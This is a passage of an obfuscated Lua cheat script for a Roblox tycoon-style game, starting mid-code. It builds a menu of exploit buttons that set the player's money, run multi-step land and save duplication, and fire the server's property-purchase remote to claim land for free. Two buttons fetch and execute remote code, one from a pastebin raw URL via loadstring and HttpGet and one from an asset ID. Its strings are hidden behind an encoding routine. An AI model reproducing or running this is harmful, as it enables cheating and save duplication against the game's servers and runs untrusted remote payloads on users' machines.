 wait();game.Players.LocalPlayer.leaderstats.Money.Value=v7("\47\110\135\165\179\116\41\46","\30\87\183\149\131\68\25");break;end end end end});local v18=v11:MakeTab({[v7("\211\204\66\76","\157\173\47\41")]=v7("\248\6\26\42","\188\115\106\79\220\222"),[v7("\160\38\201\46","\233\69\166\64\58\216")]="rbxassetid://4483345998",[v7("\101\202\25\175\125\64\213\51\172\120\76","\53\184\124\194\20")]=false});v18:AddButton({[v7("\244\37\55\36","\186\68\90\65")]=v7("\27\56\125\195\60\108\113\208\38\57\125\221\104\40\105\193\45","\72\76\28\177"),[v7("\234\84\232\86\203\84\231\81","\169\53\132\58")]=function()local v45=0 + 0 ;while true do if (v45==(0 + 0)) then v10:MakeNotification({[v7("\100\163\227\78","\42\194\142\43\34\123")]=v7("\59\133\164\228\86\134\185\161\2\150\165\236\68\131\175\224\2\129\164","\118\228\192\129"),[v7("\89\58\226\213\168\42\110","\26\85\140\161\205\68")]='Once on the loading screen press "Max land dupe step 2".',[v7("\171\77\90\18\142","\226\32\59\117\235")]="rbxassetid://12576176007",[v7("\225\189\61\17","\181\212\80\116\139\44\99")]=20 -15 });Loadslot();break;end end end});v18:AddButton({[v7("\93\112\180\117","\19\17\217\16\44\131\183")]=v7("\203\27\42\253\8\234\90\32\253\25\227\90\55\252\12\246\90\118","\134\122\68\136\105"),[v7("\246\231\188\207\215\231\179\200","\181\134\208\163")]=function()local v46=0;while true do if (v46==(0 + 0)) then v10:MakeNotification({[v7("\19\161\119\242","\93\192\26\151\222\123\114\158")]=v7("\169\241\248\189\190\196\157\176\232\170\251\203\214\247\243\185\234\195\128","\228\144\156\216\158\166"),[v7("\144\13\186\159\190\193\41","\211\98\212\235\219\175\93")]='Please now load your plot and press Max land dupe step 3".',[v7("\163\114\59\211\29","\234\31\90\180\120\106\183")]="rbxassetid://12576176007",[v7("\26\182\216\162","\78\223\181\199\146\25\215\29")]=2 + 3 });FreeLand();break;end end end});v18:AddButton({[v7("\12\79\18\163","\66\46\127\198\151\55")]=v7("\56\80\49\173\178\25\17\59\173\163\16\17\44\172\182\5\17\108","\117\49\95\216\211"),[v7("\24\206\213\4\245\242\204\161","\91\175\185\104\151\147\175\202")]=function()wait(timetotp);loadstring(game:GetObjects("rbxassetid://2662507900")[3 -2 ].Source)();end});v18:AddButton({[v7("\238\85\135\232","\160\52\234\141")]=v7("\124\124\42\164\82\212\190\56\67\118\50","\47\25\70\193\49\160\158\72"),[v7("\154\71\90\58\8\82\139\9","\217\38\54\86\106\51\232\98")]=function()loadstring(game:HttpGet("https://pastebin.com/raw/Wj49DUwL"))();end});v18:AddButton({[v7("\92\238\116\51","\18\143\25\86\232\225")]=v7("\51\219\9\244\80\5\66\95\199\13\252\21\9\88\26\208\72\224\28\5\88","\127\180\104\144\112\106\44"),[v7("\25\123\60\115\49\39\163\92","\90\26\80\31\83\70\192\55")]=function()for v51,v52 in next,game:GetService(v7("\113\121\0\21\85\102\19\29\67","\38\22\114\126")).Properties:GetChildren() do if v52:FindFirstChild(v7("\130\88\94\84\130\28\158\91\66\82\153\23","\205\42\55\51\235\114")) then if v52.OriginSquare:FindFirstChild(v7("\130\93\246\63\91\66\184\87\244","\209\56\154\90\56\54")) then game:GetService(v7("\191\170\66\227\244\134\116\57\136\171\97\251\242\151\116\42\136","\237\207\50\143\157\229\21\77")).PropertyPurchasing.ClientPurchasedProperty:FireServer(v52,v52.OriginSquare.Position);game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame=v52.OriginSquare.CFrame + Vector3.new(305 -(70 + 235) ,2 + 0 ,0) ;break;end end end end});v18:AddButton({[v7("\61\95\241\201","\115\62\156\172")]=v7("\18\76\43\120\233\86\9\46\89","\65\45\93\29\201\37\101"),[v7("\10\135\32\28\75\59\42\141","\73\230\76\112\41\90")]=function()local v47=0 + 0 ;local v48;while true do if (v47==(0 -0)) then v48=false;repeat local v105=0 -0 ;local v106;local v107;while true do if (v105==(1 + 0)) then while true do if (v106==(157 -(4 + 152))) then local v125=0;local v126;while true do if (v125==(1687 -(785 + 902))) then v126=1667 -(121 + 1546) ;while true do if (v126==(1 -0)) then v106=3 -1 ;break;end if ((426 -(268 + 158))==v126) then v107=game:GetService(v7("\159\165\251\44\248\189\186","\207\201\154\85\157"))[v7("\153\221\24\215\185\226\23\215\172\215\9","\213\178\123\182")][v7("\235\72\5\1\205\83\3\32\201\75\18\32\196\82\3","\168\61\119\115")].Value;v48=game.ReplicatedStorage.LoadSaveRequests.RequestSave:InvokeServer(v107,game.Players.LocalPlayer);v126=1 + 0 ;end end break;end end end if (v106==(0 -0)) then wait(668 -(516 + 151) );getgenv().block_save=false;v106=1;end if (v106==(3 -1)) then v10:MakeNotification({[v7("\116\123\244\225","\58\26\153\132\30\112\202\84")]=v7("\231\48\140\209\129\37\134\221\199\39\141","\179\66\233\188"),[v7("\102\216\162\18\116\19\81","\37\183\204\102\17\125")]=v7("\206\212\73\3\189\203\71\1\248\220\8","\157\184\38\119"),[v7("\117\162\232\232\174","\60\207\137\143\203\177")]="rbxassetid://12576176007",[v7("\215\239\72\255","\131\134\37\154\56\177")]=225 -(168 + 56) });break;end end break;end if (v105==(1303 -(853 + 450))) then v106=0 -0 ;v107=nil;v105=671 -(331 + 339) ;end end until v48 v47=1 -0 ;end if (v47==(3 -2)) then getgenv().block_save=true;break;end end end});
